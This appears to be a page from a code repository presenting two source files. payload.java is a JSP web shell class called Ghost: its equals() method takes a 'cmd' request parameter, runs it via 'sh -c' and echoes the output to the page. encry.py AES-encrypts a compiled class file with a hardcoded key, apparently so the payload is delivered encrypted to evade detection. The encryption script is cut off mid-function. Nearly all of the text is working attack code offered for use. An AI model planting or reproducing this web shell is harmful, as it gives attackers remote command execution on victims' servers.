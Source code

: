 * payload.java

```java
import javax.servlet.jsp.PageContext;
import java.io.*;

public class Ghost implements java.io.Serializable {
    public boolean equals(Object obj) {
        PageContext pc = (PageContext)obj;
        try {
            // 获取命令参数
            String cmd = pc.getRequest().getParameter("cmd");
            if(cmd == null) return false;
            
            // 执行命令并获取输出
            Process p = Runtime.getRuntime().exec(
                new String[]{"sh", "-c", cmd}
            );
            
            // 读取命令输出
            StringBuilder sb = new StringBuilder();
            BufferedReader br = new BufferedReader(
                new InputStreamReader(p.getInputStream())
            );
            String line;
            while ((line = br.readLine()) != null) {
                sb.append(line).append("\n");
            }
            
            // 回显结果
            pc.getResponse().getWriter().print(sb.toString());
        } catch(Exception e) {
            return false;
        }
        return true;
    }
}
```

* encry.py

```python
#!/usr/bin/env python3
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import sys
import os

# 32字节密钥
KEY = b"this_is_a_32bytes__1234567890abc"
MODE = AES.MODE_CBC

def encrypt_class(file_path):
    with open(file_path, 'rb') as f:
        class_bytes = f.read()
    
    # 生成随机IV
    iv = os.urandom(16)
    
    cipher = AES.new(KEY, MODE, iv=iv)
    encrypted = cipher.encrypt(pad(class_bytes, AES.block_size))
    
    # 返回IV+密文的Base64
    combined = iv + encrypted
```